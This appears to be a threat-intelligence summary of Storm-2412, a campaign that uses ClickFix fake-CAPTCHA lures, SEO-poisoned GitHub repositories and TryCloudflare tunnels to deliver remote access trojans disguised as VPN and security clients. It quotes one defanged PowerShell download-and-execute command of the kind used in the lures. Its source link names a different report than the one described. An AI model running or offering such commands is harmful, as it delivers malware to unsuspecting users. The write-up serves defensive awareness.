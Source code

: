 **Original link:** https://www.trendmicro.com/en_us/research/25/c/socgholishs-intrusion-techniques-facilitate-distribution-of-rans.html

## Threat Actor Abuses Cloudflare Tunnels to Deliver RATs
### Summmary
Proofpoint has observed an increase in financially motivated cybercriminal activity that abuses the **TryCloudflare Tunnel feature** to deliver exclusively **remote access trojans (RATs)**. These threat actors have been modifying their tactics, techniques, and procedures (TTPs) in attempts to bypass detection and improve efficacy. Microsoft tracks this activity as **Storm-2412**, noting their use of social engineering via **ClickFix lures** and **SEO poisoning** targeting malicious **GitHub repositories** hosting fake business applications to deliver malware masked as a legitimate **Node.js** runtime environment. The malware establishes persistence, conducts network discovery, and uses TryCloudflare for command and control (C2) and defense evasion.. The use of Cloudflare Tunnels provides the attackers with flexible and temporary infrastructure, complicating detection and blocking efforts. The attackers also employ social engineering tactics with business-relevant themes in their lures, impacting organizations globally.

### Technical Details
The threat activity leverages the **TryCloudflare** feature, which allows the creation of one-time tunnels without needing an account, to deliver malware. These tunnels facilitate remote access to data and resources not on the local network. Microsoft identifies the threat actor behind these campaigns as **Storm-2412**.

**Initial Access:** Storm-2412 employs two primary social engineering methods to gain an initial foothold:

*   **ClickFix Lure:** This technique involves deceiving users into visiting compromised websites that either directly present a fake CAPTCHA page or redirect the user to one. The fake CAPTCHA then convinces the user to execute a **PowerShell** command to complete a verification process. The ClickFix technique exploits users' tendency to troubleshoot perceived issues by presenting fake error messages that prompt users to copy and paste commands, leading to malware download. This has been observed in scenarios mimicking security alerts or fake GitHub scanners. An example of a PowerShell command executed through this method involves downloading and running content from a `trycloudflare.com` host:
    ```
    "cmd.exe" /c start /min powershell -noprofile -w hidden -c "$r=iwr hXXps://occasional-peterson-blast-sussex[.]trycloudflare.com/cloudfls -h @{'X-ComputerName'=$env:COMPUTERNAME };$s=[Text.Encoding]::Utf8.GetString($r.Content);iex $s"
    ```
*   **GitHub Lure:** Storm-2412 utilizes **search engine optimization (SEO) poisoning** to manipulate search algorithms, diverting users searching for legitimate secure enterprise applications to malicious GitHub repositories. These repositories host fake installations for popular security, virtual private network (VPN), and business applications such as Ivanti Secure Access Client, FortiClient, Zscaler, Cisco Secure Client, Webex, and SAPGUI Setup. The malicious search results and the GitHub landing pages are designed to appear legitimate, often using brand icons (favicons) to build trust.

**Execution:** Upon execution, either through the GitHub download or the deceptive CAPTCHA, the Storm-2412 malware leverages a legitimate **Node.js** environment to execute embedded **JavaScript**. This JavaScript then spawns **PowerShell** commands responsible for conducting initial system reconnaissance and downloading further malicious payloads. When a user downloads a fake application from GitHub, the executable, often packaged with **PyInstaller**, drops `node.exe` along with associated malicious scripts and libraries onto the target system. Observed filenames of these malicious executables include *GlobalProtect.exe*, *Cisco-Secure-Client.exe*, *Invanti-Secure-Access-Client.exe*, *Zscaler-Client-Connector.exe*, *Webex.exe*, *NetExtender.exe*, and *FortiClient.exe*. The executed malware exhibits RAT-like capabilities, including executing malicious files and leveraging scripting interpreters like PowerShell and Windows Command Shell to run arbitrary commands.
